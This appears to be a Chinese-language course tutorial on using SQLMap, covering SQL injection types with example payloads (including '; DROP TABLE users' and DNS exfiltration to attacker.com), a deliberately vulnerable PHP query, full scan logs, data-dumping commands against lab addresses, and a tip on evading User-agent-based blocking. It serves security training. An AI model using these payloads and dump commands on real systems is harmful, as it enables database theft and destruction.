




## 前言

## 概述

SQLMap 是一款免费且开源的渗透测试工具，用 Python 编写，能够自动化检测和利用 SQL 注入（SQLi）漏洞的过程。自 2006 年以来，SQLMap 一直在持续开发，至今仍在维护中。

### 支持的 SQL 注入类型

QLMap 是唯一能够正确检测并利用所有已知 SQLi 类型的渗透测试工具。我们通过 sqlmap -hh 命令看到 SQLMap 支持的 SQL 注入类型：

```shell
$ sqlmap -hh
...SNIP...
  Techniques:
    --technique=TECH..  SQL injection techniques to use (default "BEUSTQ")
```

BEUSTQ 指的是以下内容：

* B：基于布尔的盲注Boolean-based blind
* E：基于错误Error-based
* U：基于联合查询Union query-based
* S：堆叠查询Stacked queries
* T：基于时间的盲测Time-based blind
* Q ：内联查询Inline queries

### Boolean-based blind SQL I

布尔型盲注 SQL 注入示例：

`AND 1=1`

SQLMap 工具会通过区分 SQL 查询结果的 “真” 与 “假”，来利用布尔型盲注 SQL 注入漏洞，其核心逻辑是每次请求仅能有效获取 1 字节的信息。这种 “真 / 假” 的区分依据是对比服务器的响应内容 —— 通过分析原始响应文本、HTTP 状态码、页面标题、过滤后的文本等维度的模糊对比，判断对应的 SQL 查询返回的是真（TRUE）还是假（FALSE）。

* “真”（TRUE）结果的判定依据通常是：（注入 SQL 语句后）服务器的响应与正常情况下的服务器响应无任何差异，或仅有细微差异。
* “假”（FALSE）结果的判定依据是：（注入 SQL 语句后）服务器的响应与正常情况下的服务器响应存在显著差异。

### Error-based SQL I

基于错误的 SQL 注入示例：

`AND GTID_SUBSET(@@version,0)`

如果服务器在响应任何数据库相关问题时，会返回数据库管理系统（DBMS）的错误信息，那么这些错误信息有可能被用来携带所执行查询的结果。
在这种情况下，可以使用针对当前数据库管理系统的专用攻击载荷（Payload），利用会触发已知异常行为的函数进行攻击。

报错型 SQL 注入被认为是除联合查询型注入之外最快的一种注入方式，因为它在每次请求中可以获取有限大小（例如 200 字节）的数据块（称为 “chunk”）。

### UNION query-based

示例:

`UNION ALL SELECT 1,@@version,3`

通过使用 **UNION（联合查询）**，通常可以将注入语句的结果追加 / 合并到原始（存在漏洞的）查询中。
这样一来，如果原始查询的结果会展现在服务器响应里，攻击者就可以直接在页面响应中获取注入语句返回的额外结果。
这种 SQL 注入被认为是速度最快的，因为在理想情况下，攻击者只需一次请求，就能提取出目标数据库整张表的内容。

### Stacked queries

示例：

`; DROP TABLE users`

堆叠 SQL 查询（也称为 “语句叠加 /piggy-backing”），是指在存在漏洞的语句之后，注入额外的 SQL 语句的一种注入形式。
如果需要执行非查询类语句 （例如 INSERT、UPDATE 或 DELETE），则存在漏洞的平台必须支持堆叠查询（例如 Microsoft SQL Server 和 PostgreSQL 默认支持该功能）。
SQLMap 可以利用此类漏洞执行高级功能中的非查询操作（例如执行操作系统命令），并以类似于时间型盲注的方式进行数据获取。

### Time-based blind SQL Injection

示例:

`AND 1=IF(2>1,SLEEP(5),0)`

时间型盲注 SQL 注入的原理与布尔型盲注 SQL 注入类似，但此处是利用服务器响应时间作为判断 真（TRUE）或假（FALSE）的依据。

* 真（TRUE）响应的典型特征是：与正常服务器响应相比，响应时间存在明显延迟。
* 假（FALSE）响应则表现为：响应时间与正常响应时间几乎无法区分。

**时间型盲注 SQL 注入**明显慢于布尔型盲注，因为会返回真的查询会让服务器响应延迟。这种注入类型通常用于布尔型盲注不适用的场景。
例如，当存在漏洞的 SQL 语句属于非查询语句（如 INSERT、UPDATE 或 DELETE），且作为辅助功能执行、对页面渲染过程无任何影响时，就必须使用时间型盲注，因为此时**布尔型盲注**基本无法生效。

### Inline queries

示例:

`SELECT (SELECT @@version) from`

这种注入类型会**在原始查询语句内部嵌入一条查询**。这类 SQL 注入并不常见，因为它要求存在漏洞的 Web 应用是按特定方式编写的。尽管如此，SQLMap 同样支持这类 SQL 注入。

### Out-of-band SQL Injection

示例:

`LOAD_FILE(CONCAT('`

这被认为是最先进的 SQL 注入类型之一，通常用于其他所有注入类型都不被存在漏洞的 Web 应用支持，或速度过慢的场景（例如时间型盲注 SQL 注入）。
SQLMap 通过 **“DNS 带外数据窃取”支持带外 SQL 注入（OOB SQLi）**，可以通过 DNS 流量获取查询结果。
通过在自己控制的域名对应的 DNS 服务器上运行 SQLMap（如 .attacker.com），SQLMap 可以强制目标服务器去请求不存在的子域名（如 foo.attacker.com），其中 foo 就是我们想要获取的 SQL 查询结果。
随后，SQLMap 会收集这些报错的 DNS 请求，提取其中的 foo 部分，从而拼接出完整的 SQL 查询结果。

## SQLMap 入门

刚开始使用 SQLMap 时，新手用户的第一步通常是查看程序的帮助信息。为方便新手使用，帮助信息分为两个展示级别：

* 基础列表仅显示基本选项与开关，在大多数场景下已足够使用（对应参数：**-h**）。

  ```shell
  $ sqlmap -h
          ___
         __H__
   ___ ___[']_____ ___ ___  {1.4.9#stable}
  |_ -| . ["]     | .'| . |
  |___|_  [.]_|_|_|__,|  _|
        |_|V...       |_|   http://sqlmap.org

  Usage: python3 sqlmap [options]

  Options:
    -h, --help            Show basic help message and exit
    -hh                   Show advanced help message and exit
    --version             Show program's version number and exit
    -v VERBOSE            Verbosity level: 0-6 (default 1)

    Target:
      At least one of these options has to be provided to define the
      target(s)

      -u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")
      -g GOOGLEDORK       Process Google dork results as target URLs
  ...SNIP...
  ```
* 高级列表会显示所有选项与开关（参数：**-hh**）。

  ```shell
  $ sqlmap -hh
          ___
         __H__
   ___ ___[)]_____ ___ ___  {1.4.9#stable}
  |_ -| . [.]     | .'| . |
  |___|_  [)]_|_|_|__,|  _|
        |_|V...       |_|   http://sqlmap.org

  Usage: python3 sqlmap [options]

  Options:
    -h, --help            Show basic help message and exit
    -hh                   Show advanced help message and exit
    --version             Show program's version number and exit
    -v VERBOSE            Verbosity level: 0-6 (default 1)

    Target:
      At least one of these options has to be provided to define the
      target(s)

      -u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")
      -d DIRECT           Connection string for direct database connection
      -l LOGFILE          Parse target(s) from Burp or WebScarab proxy log file
      -m BULKFILE         Scan multiple targets given in a textual file
      -r REQUESTFILE      Load HTTP request from a file
      -g GOOGLEDORK       Process Google dork results as target URLs
      -c CONFIGFILE       Load options from a configuration INI file

    Request:
      These options can be used to specify how to connect to the target URL

      -A AGENT, --user..  HTTP User-Agent header value
      -H HEADER, --hea..  Extra header (e.g. "X-Forwarded-For: 127.0.0.1")
      --method=METHOD     Force usage of given HTTP method (e.g. PUT)
      --data=DATA         Data string to be sent through POST (e.g. "id=1")
      --param-del=PARA..  Character used for splitting parameter values (e.g. &)
      --cookie=COOKIE     HTTP Cookie header value (e.g. "PHPSESSID=a8d127e..")
      --cookie-del=COO..  Character used for splitting cookie values (e.g. ;)
  ...SNIP...
  ```

### **基础场景**

在一个简单场景中，渗透测试人员访问一个通过 GET 参数接收用户输入的网页（例如 id 参数）。
他们想要测试该网页是否存在 SQL 注入漏洞。如果存在，就会对其进行利用，从后端数据库中获取尽可能多的信息，甚至尝试访问底层文件系统并执行操作系统命令。
适用于该场景、存在 SQL 注入漏洞的 PHP 示例代码如下：

```php
$link = mysqli_connect($host, $username, $password, $database, 3306);
$sql = "SELECT * FROM users WHERE id = " . $_GET["id"] . " LIMIT 0, 1";
$result = mysqli_query($link, $sql);
if (!$result)
    die("<b>SQL error:</b> ". mysqli_error($link) . "<br>\n");

```

由于存在漏洞的 SQL 查询开启了错误回显，因此当 SQL 语句执行出现异常时，Web 服务器的响应中会返回数据库错误信息。
这种情况会极大简化 SQL 注入检测的过程，尤其是在手动篡改参数值时，产生的错误信息很容易被识别：



针对示例网址 ` http://www.example.com/vuln.php?id=1` 运行 SQLMap 工具，对应的命令如下：

```shell
$ sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.9}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 22:26:45 /2020-09-09/

[22:26:45] [INFO] testing connection to the target URL
[22:26:45] [INFO] testing if the target URL content is stable
[22:26:46] [INFO] target URL content is stable
[22:26:46] [INFO] testing if GET parameter 'id' is dynamic
[22:26:46] [INFO] GET parameter 'id' appears to be dynamic
[22:26:46] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[22:26:46] [INFO] heuristic (XSS) test shows that GET parameter 'id' might be vulnerable to cross-site scripting (XSS) attacks
[22:26:46] [INFO] testing for SQL injection on GET parameter 'id'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[22:26:46] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:26:46] [WARNING] reflective value(s) found and filtering out
[22:26:46] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="luther")
[22:26:46] [INFO] testing 'Generic inline queries'
[22:26:46] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[22:26:46] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
...SNIP...
[22:26:46] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[22:26:46] [INFO] testing 'MySQL inline queries'
[22:26:46] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[22:26:46] [WARNING] time-based comparison requires larger statistical model, please wait........... (done)                                                                                               
...SNIP...
[22:26:46] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[22:26:56] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[22:26:56] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:26:56] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[22:26:56] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[22:26:56] [INFO] target URL appears to have 3 columns in query
[22:26:56] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 46 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 8814=8814

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1 AND (SELECT 7744 FROM(SELECT COUNT(*),CONCAT(0x7170706a71,(SELECT (ELT(7744=7744,1))),0x71707a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 3669 FROM (SELECT(SLEEP(5)))TIxJ)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7170706a71,0x554d766a4d694850596b754f6f716250584a6d53485a52474a7979436647576e766a595374436e78,0x71707a7871)-- -
---
[22:26:56] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: MySQL >= 5.0
[22:26:57] [INFO] fetched data logged to text files under '/home/user/.sqlmap/output/www.example.com'

[*] ending @ 22:26:57 /2020-09-09/
```

> 注意：在此场景下，参数 -u 用于指定目标 URL，而开关 --batch 则用于跳过所有需要用户手动输入的环节 —— 该开关会自动选择默认选项来完成操作。

## SQLMap 输出说明

在上一节的末尾，sqlmap 在扫描过程中输出了大量信息。理解这些数据通常至关重要，因为它们会引导我们完成整个自动化 SQL 注入过程。这些信息能明确展示 SQLMap 正在利用何种漏洞，帮助我们判断 Web 应用存在的注入类型。如果我们希望在 SQLMap 确定注入类型和漏洞参数后，手动对该 Web 应用进行漏洞利用，这些信息也会非常有用。

以下是 SQLMap 扫描过程中最常见的若干日志信息，每条均附带上一节练习中的示例与解释。

### URL content is stable

日志信息：

`target URL content is stable`

这表示在连续发送相同请求时，服务器响应之间没有重大变化。从自动化角度来看这一点非常重要，因为在响应稳定的情况下，更容易发现由潜在 SQL 注入尝试所引起的差异。
虽然稳定性很重要，但 SQLMap 拥有高级机制，可以自动剔除来自不稳定目标可能产生的 “干扰信息(noise)”。

### Parameter appears to be dynamic

日志信息：
`GET parameter 'id' appears to be dynamicGET parameter 'id' appears to be dynamic`

我们总是希望被测试的参数是动态（dynamic）的，因为这表明修改参数值会导致响应内容发生变化，说明该参数可能与数据库相关联。
如果输出是 “静态（static）” 且内容不变，则可能表明目标并未处理该参数的值，至少在当前上下文里没有处理。

### Parameter might be injectable

日志信息：
`heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')`

如前所述，数据库错误是存在潜在 SQL 注入的良好标志。
在本例中，当 SQLMap 发送故意构造的非法值（例如 ?id=1",)..).))'）时，页面返回了 MySQL 错误，说明被测试参数可能存在 SQL 注入，且目标数据库可能是 MySQL。
需要注意的是，这并非注入漏洞的确凿证据，只是一个提示，表明检测机制需要在后续扫描中进一步验证。

### Parameter might be vulnerable to XSS attacks

日志信息：
`heuristic (XSS) test shows that GET parameter 'id' might be vulnerable to cross-site scripting (XSS) attacks`
虽然这不是 SQLMap 的主要功能，但它也会对 XSS 漏洞进行快速启发式检测。
在使用 SQLMap 批量测试大量参数的大规模扫描中，这类快速启发式检测非常实用，尤其是在未发现 SQL 注入漏洞时。

### Back-end DBMS is '...'

日志信息：

> it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? Y/n
>
> 看起来后端数据库管理系统是 'MySQL'。您想跳过针对其他数据库管理系统的特定测试负载吗？Y/n

在常规运行时，SQLMap 会测试所有支持的数据库。
如果有明确迹象表明目标使用某一种特定数据库，**输入Y** 我们可以只针对该数据库加载对应的攻击载荷，缩小检测范围。

### Level/risk values

> 日志信息：
> `for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? Y/n`
> 对于剩余的测试，您是否想要包含所有针对'MySQL'的测试，并扩展提供的级别（1）和风险（1）值？Y/n

如果明确目标使用某一特定数据库，还可以扩大对该数据库的测试范围，超出常规测试级别。
这意味着会运行该数据库的全部 SQL 注入载荷；而如果未识别出数据库，则只会测试最常用的载荷。

### Reflective values found

日志信息：
`reflective value(s) found and filtering out`

这只是一条警告：所使用的攻击载荷片段出现在了响应内容中。
这种现象可能会对自动化工具造成干扰，属于无效内容。不过 SQLMap 具备过滤机制，会在对比原始页面内容前剔除这类干扰信息。

### Parameter appears to be injectable

日志信息：
`GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="luther")`
该信息表示参数看起来可注入，但仍存在误报（假阳性）可能。
对于布尔盲注及类似注入类型（如时间盲注），假阳性概率较高，因此 SQLMap 会在扫描末尾执行包含简单逻辑判断的全面测试，以排除假阳性结果。
此外，--string="luther" 表示 SQLMap 识别并利用响应中固定字符串 luther 的出现与否，来区分 TRUE / FALSE 响应。
这是一个重要结果，因为这种情况下不需要使用高级内部机制（如动态性 / 回显剔除、响应模糊比对），因此基本不会出现假阳性。

### Time-based comparison statistical model

日志信息：
`time-based comparison requires a larger statistical model, please wait........... (done)`
SQLMap 使用统计模型来识别正常响应与（故意触发的）延迟响应。
该模型需要收集足够多的正常响应时间样本才能正常工作。
通过这种方式，即使在高延迟网络环境下，SQLMap 也能从统计上区分出人为故意造成的延迟。

### Extending UNION query injection technique tests

日志信息：
`automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found`
UNION 查询注入检测相比其他注入类型，需要更多请求才能成功识别可用载荷。
为减少单个参数的测试时间，尤其是目标看起来不可注入时，这类检测的请求数会被限制在固定值（如 10 次）。
但如果目标极有可能存在漏洞，尤其是已经发现另一种（潜在）注入技术时，SQLMap 会扩大 UNION 查询注入的默认请求次数，因为成功预期更高。

### Technique appears to be usable

日志信息：
`ORDER BY' technique appears to be usable. This should reduce the time needed to find right number of query columns. Automatically extending the range for current UNION query injection technique test`
作为对 UNION 查询注入的启发式检测，在发送实际 UNION 载荷之前，SQLMap 会先检查 ORDER BY 技巧是否可用。
如果可用，SQLMap 可以通过二分法快速判断出查询所需的正确列数。
注意：这取决于存在漏洞的查询所涉及的表。

### Parameter is vulnerable

日志信息：
`GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? y/N`
这是 **SQLMap 最重要的信息之一，表示该参数已确认存在 SQL 注入漏洞。**
通常情况下，用户只需要找到至少一个可用注入点（参数）即可。
但如果我们要对 Web 应用做全面测试并上报所有潜在漏洞，则可以继续搜索所有存在漏洞的参数。

### Sqlmap identified injection points

日志信息：
`sqlmap identified the following injection point(s) with a total of 46 HTTP(s) requests:`
紧随其后会列出所有注入点，包含类型、标题和载荷，这是成功检测并验证 SQL 注入漏洞可利用的最终证明。
需要注意，SQLMap 只会列出已证明可利用的结果。

### Data logged to text files

日志信息：
`fetched data logged to text files under '/home/user/.sqlmap/output/www.example.com'`
该信息指明用于存储特定目标（本例为 www.example.com）所有日志、会话和输出数据的本地文件系统路径。
在首次成功检测到注入点后，后续运行所需的所有细节都会保存在该目录下的会话文件中。
这意味着 SQLMap 会尽可能减少对目标的请求次数，直接复用会话文件中的数据。

# 构建攻击

## 正确配置HTTP请求

SQLMap 拥有大量选项和开关，可用于在使用前正确配置 HTTP 请求。
在很多情况下，一些简单的失误都会导致无法正确检测和利用潜在的 SQL 注入漏洞，例如：忘记提供正确的 Cookie 值、用冗长的命令把配置复杂化，或是错误声明格式化的 POST 数据。

### cURL命令

针对特定目标（即包含参数的网页请求）正确设置 SQLMap 请求的最佳且最简单的方法之一，是在 Chrome、Edge 或 Firefox 开发者工具的网络（监视器）面板中使用“ 复制为 cURL”功能：



将剪贴板内容粘贴到命令行，再把原命令中的 curl 替换为 sqlmap，就能直接用和 cURL 完全一样的命令运行 SQLMap。

```shell
$ sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'
```

向 SQLMap 提供测试数据时，必须满足以下任一条件：

* 存在可用于检测 SQL 注入漏洞的参数值；
* 使用专门的选项 / 开关让工具自动寻找参数（如 --crawl、--forms 或 -g）

### GET/POST请求

在最常见的场景中，GET 参数通过选项 `-u`/`--URL` 提供，如前例所示。至于测试 POST 数据，可以使用 `--data `标志，具体如下：

```shell
$ sqlmap 'http://www.example.com/' --data 'uid=1&name=test'
```

在这种情况下，`POST `参数 `uid`和 `name `都会被检测是否存在 SQL 注入漏洞。
例如，如果我们能明确判断出 `uid` 参数存在 SQL 注入漏洞，就可以通过 `-p uid`将测试范围仅限定在这一个参数上。
除此之外，我们也可以在传入的数据中，使用特殊标记符 `*`对目标参数进行标注，示例如下：

```shell
$ sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'
```

### 完整的HTTP请求

如果需要指定包含大量不同请求头、且 POST 请求体较长的复杂 HTTP 请求，可使用 `-r` 参数。
通过该参数，SQLMap 会读取请求**文件**，这个**文本文件**里存放着完整的 HTTP 请求内容。
在常规使用场景中，可通过专业代理工具（如 Burp）抓取这类 HTTP 请求，再将其写入请求文件，示例如下：



使用Burp捕获的HTTP请求示例看起来会像:

```http
GET /?id=1 HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1
If-Modified-Since: Thu, 17 Oct 2019 07:18:26 GMT
If-None-Match: "3147526947"
Cache-Control: max-age=0
```

我们既可以从 Burp 中手动复制 HTTP 请求并写入文件，也可以在 Burp 中右键点击该请求，选择 “Copy to file（复制到文件）” 选项。
抓取完整 HTTP 请求的另一种方式，正如本节前文所述，是通过浏览器操作：选择 “复制> 复制请求头（Copy > Copy Request Headers）” 选项，再将请求内容粘贴到文件中。
若要借助 HTTP 请求文件运行 SQLMap，需使用 `-r `参数，示例如下：

```shell
$ sqlmap -r req.txt
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.4.9}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 14:32:59 /2020-09-11/

[14:32:59] [INFO] parsing HTTP request from 'req.txt'
[14:32:59] [INFO] testing connection to the target URL
[14:32:59] [INFO] testing if the target URL content is stable
[14:33:00] [INFO] target URL content is stable
```

> 提示：类似于‘--data’选项的情况，在保存的请求文件中，我们可以使用星号（*）指定我们想要注入的参数，例如‘/?id=**’。

### 自定义 SQLMap 请求

若需手动构造复杂的请求，SQLMap 提供了大量参数和选项来实现精细化配置。
例如，若需要指定会话 Cookie 值为 PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c，可使用 `--cookie` 参数，用法如下：

```shell
$ sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```

也可通过 `-H`/`--header `参数实现相同的效果：

```shell
$ sqlmap ... -H='Cookie:PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```

我们也可将此方法应用于 `--host`、`--referer `以及 `-A`/`--user-agent` 等参数，这些参数均用于指定对应的 HTTP 请求头值。
此外，`--random-agent `参数可从内置的常规浏览器 User-agent 数据库中随机选取一个 User-agent 请求头值。这是一个需要重点记住的参数 —— 因为如今越来越多的防护方案会自动拦截所有包含可识别的 SQLMap 默认 User-agent 值的 HTTP 流量（例如 User-agent: sqlmap/1.4.9.12#dev (http://sqlmap.org)）。除此之外，也可使用 `--mobile `参数，通过设置对应的 User-agent 值来模拟智能手机的请求。
SQLMap 默认仅针对 HTTP 参数进行检测，但也可对请求头进行 SQL 注入漏洞测试。最简单的方法是在请求头值后添加自定义注入标记 *（例如 --cookie="id=1*"）。这一原理同样适用于请求的其他任意部分。
另外，若需要指定 GET、POST 之外的其他 HTTP 请求方法（例如 PUT），可使用 `--method` 参数，用法如下：

```shell
$ sqlmap -u www.target.com --data='id=1' --method PUT
```

### 自定义 HTTP 请求

除了最常见的表单数据 POST 体样式（例如 `id=1` ）之外，SQLMap 还支持 JSON 格式（例如 `{"id":1}` ）和 XML 格式（例如 `<element><id>1</id></element>` ）的 HTTP 请求。对这些格式的支持以一种“宽松”的方式实现；因此，对参数值的存储方式没有严格的限制。如果 POST 请求体相对简单且较短，则使用 -`-data` 选项即可。

但是，如果 POST 请求体很复杂或很长，我们可以再次使用 `-r` 选项：

```shell
$ cat req.txt
HTTP / HTTP/1.0
Host: www.example.com

{
  "data": [{
    "type": "articles",
    "id": "1",
    "attributes": {
      "title": "Example JSON",
      "body": "Just an example",
      "created": "2020-05-22T14:56:29.000Z",
      "updated": "2020-05-22T14:56:28.000Z"
    },
    "relationships": {
      "author": {
        "data": {"id": "42", "type": "user"}
      }
    }
  }]
}
```

```shell
$ sqlmap -r req.txt
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.4.9}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 00:03:44 /2020-09-15/

[00:03:44] [INFO] parsing HTTP request from 'req.txt'
JSON data found in HTTP body. Do you want to process it? [Y/n/q] 
[00:03:45] [INFO] testing connection to the target URL
[00:03:45] [INFO] testing if the target URL content is stable
[00:03:46] [INFO] testing if HTTP parameter 'JSON type' is dynamic
[00:03:46] [WARNING] HTTP parameter 'JSON type' does not appear to be dynamic
[00:03:46] [WARNING] heuristic (basic) test shows that HTTP parameter 'JSON type' might not be injectable
```

### 案例

#### Case3 - Cookie value

`sqlmap -u 'http://154.57.164.83:32458/case3.php' --cookie='id=1*' --batch --dump`

#### Case4 - JSON value

Detect and exploit SQLi vulnerability in JSON data {"id": 1}

`sqlmap 'http://154.57.164.83:32458/case4.php' --data='{"id":1*}' --batch --dump`

## 处理 SQLMap 错误

我们在配置 SQLMap 或通过 HTTP 请求使用它时，可能会遇到很多问题。在本节中，我们将介绍**推荐的排查方法**，用于定位问题原因并正确修复。

### 显示错误

第一步通常是启用 `--parse-errors` 参数，用于解析数据库管理系统（DBMS）的报错信息（如果存在），并将其作为程序运行过程的一部分显示出来。

```shell
..SNIP...
[16:09:20] [INFO] testing if GET parameter 'id' is dynamic
[16:09:20] [INFO] GET parameter 'id' appears to be dynamic
[16:09:20] [WARNING] parsed DBMS error message: 'SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '))"',),)((' at line 1'"
[16:09:20] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[16:09:20] [WARNING] parsed DBMS error message: 'SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''YzDZJELylInm' at line 1'
...SNIP...
```

使用此选项，SQLMap 将自动打印 DBMS 错误，从而让我们清楚地了解可能存在的问题，以便我们能够正确地修复它。

### 保存流量数据

`-t `选项会将所有流量内容存储到输出文件中：

```shell
$ sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt

...SNIP...

$ cat /tmp/traffic.txt
HTTP request [#1]:
GET /?id=1 HTTP/1.1
Host: www.example.com
Cache-control: no-cache
Accept-encoding: gzip,deflate
Accept: */*
User-agent: sqlmap/1.4.9 (http://sqlmap.org)
Connection: close

HTTP response [#1] (200 OK):
Date: Thu, 24 Sep 2020 14:12:50 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
